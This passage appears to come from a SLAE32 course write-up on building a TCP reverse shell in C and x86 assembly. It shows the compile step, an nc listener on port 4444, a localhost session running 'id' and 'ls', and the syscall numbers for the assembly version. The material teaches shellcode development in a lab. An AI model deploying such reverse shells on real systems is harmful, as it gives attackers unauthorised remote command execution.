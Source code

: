 
In order to prove that the Reverse Shell is working we have to compile the `C` program using the GNU Compiler (`gcc`):

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/2_Shell_reverse_tcp$ gcc reverse-c.c -o reverse-c
```

First, create a listener with `nc` on port `4444` and wait for connections:

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/2_Shell_reverse_tcp$ nc -lvnp 4444
```

Then, in another terminal execute `reverse-c`.

```shell
geobour98@slae32-dev:~/SLAE/custom/SLAE32/2_Shell_reverse_tcp$ ./reverse-c

```

In the first terminal verify the incoming connection and run the commands `id` and `ls`.

```shell
Listening on [0.0.0.0] (family 0, port 4444)
Connection from [127.0.0.1] port 4444 [tcp/*] accepted (family 2, sport 35304)
id
uid=1000(geobour98) gid=1000(geobour98) groups=1000(geobour98),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
ls
compile.sh
reverse
reverse-c
reverse-c.c
reverse.nasm
reverse.o
reverse.py
exit
geobour98@slae32-dev:~$
```

## TCP Reverse Shell in Assembly

In order to implement the syscalls in Assembly, we have to find their defined numbers. These are located at the header file: `/usr/include/i386-linux-gnu/asm/unistd_32.h`.

The syscalls and their definitions can be found in the following table:

| Syscall | Definition |
| -- | -- |
| `socket` | `#define __NR_socket 359` |
| `connect` | `#define __NR_connect 362` |
| `dup2` | `#define __NR_dup2 63` |
| `execve` | `#define __NR_execve 11` |
